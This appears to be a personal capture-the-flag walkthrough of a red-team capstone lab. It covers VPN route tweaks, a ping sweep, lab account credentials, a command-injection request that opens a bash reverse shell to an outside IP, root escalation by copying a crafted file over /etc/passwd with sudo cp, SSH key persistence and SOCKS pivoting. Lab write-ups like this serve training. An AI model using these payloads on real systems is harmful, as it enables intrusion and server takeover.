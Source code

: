 # Modify and connect the ovpn
```bash
ip a
11: capstone: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none 
    inet 10.50.50.170/24 scope global capstone
       valid_lft forever preferred_lft forever
    inet6 fe80::7e0e:b09d:91f1:64d6/64 scope link stable-privacy 
       valid_lft forever preferred_lft forever
12: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none 
    inet 12.100.1.9/24 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 fe80::bac5:cf03:b243:de6d/64 scope link stable-privacy 
       valid_lft forever preferred_lft forever
```

It works under the capstone network vpn only.

To perform a ping sweep on the IP range 12.100.1.0/24 (which includes addresses from 12.100.1.0 to 12.100.1.255), you can use the following one-line bash script:

```bash
for ip in 12.100.1.{1..255}; do ping -c 1 -W 1 $ip >/dev/null && echo "$ip is up"; done

12.100.1.1 is up <- !
12.100.1.9 is up
```

* https://unix.stackexchange.com/questions/16500/how-to-refuse-routes-that-are-pushed-by-openvpn-server
* https://openvpn.net/community-resources/setting-up-routing/

### Update the ovpn file
```ovpn
remote 10.200.52.12 1194
pull-filter ignore "route 172."
route 10.200.52.21 255.255.255.255 12.100.1.1
route 10.200.52.22 255.255.255.255 12.100.1.1
```

```bash
sudo openvpn corpUsername.ovpn

2023-05-31 15:39:22 TUN/TAP device tun0 opened
2023-05-31 15:39:22 net_iface_mtu_set: mtu 1500 for tun0
2023-05-31 15:39:22 net_iface_up: set tun0 up
2023-05-31 15:39:22 net_addr_v4_add: 12.100.1.9/24 dev tun0
2023-05-31 15:39:22 net_route_v4_add: 10.200.52.21/32 via 12.100.1.1 dev [NULL] table 0 metric 1000
2023-05-31 15:39:22 net_route_v4_add: 10.200.52.22/32 via 12.100.1.1 dev [NULL] table 0 metric 1000
```


# Generate new ovpn
Login with the creds first:
```txt
laura.wood@corp.thereserve.loc Password1@
mohammad.ahmed@corp.thereserve.loc Password1!
```

It prevents you from kicking out by having your own ovpn file.
# Hack the VPN server instead of using ovpn
Login with the creds first. This way is more stable to get DC. Chisel from WRK1 to DC also doable, but not as stable as ssh tunneling since that's under rdp.

### Command Injection
```bash burp
GET /requestvpn.php?filename=qwer%40corp.thereserve.loc+%26%26+bash+-i+>%26+/dev/tcp/10.50.110.158/80+0>%261 HTTP/1.1
```

### Privilege Escalation via cp

https://www.hackingarticles.in/linux-for-pentester-cp-privilege-escalation/

##### Kali
```bash
openssl passwd -1 -salt ignite pass123
$1$ignite$3eTbJm98O9Hz.k1NTdNxe1
```

##### Victim (VPN server)
```bash
www-data@ip-10-200-113-12:/tmp$ sudo -l
sudo -l
Matching Defaults entries for www-data on ip-10-200-113-12:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-200-113-12:
    (root) NOPASSWD: /home/ubuntu/openvpn-createuser.sh, /bin/cp
www-data@ip-10-200-113-12:/tmp$ sudo /bin/cp passwd /etc/passwd
sudo /bin/cp passwd /etc/passwd
www-data@ip-10-200-113-12:/tmp$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<mp$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ip-10-200-113-12:/tmp$ su baturu
su baturu
Password: pass123

root@ip-10-200-113-12:/tmp# whoami
whoami
root
```
### SSH as root
```bash
# grab the pub
ssh-keygen -t rsa -b 4096 -C "baturu@thm.com"

echo "ssh-rsa public id_rsa_pub baturu@thm.com" >> authorized_keys
```
### Setup SSH Pivoting
```bash
ssh -D 1085 root@$IP -i id_rsa
```

```conf
# Change to 1085 for THM Capstone
# socks4 	127.0.0.1 1085
socks5 	127.0.0.1 1085
```
-> Go to DC after pivoting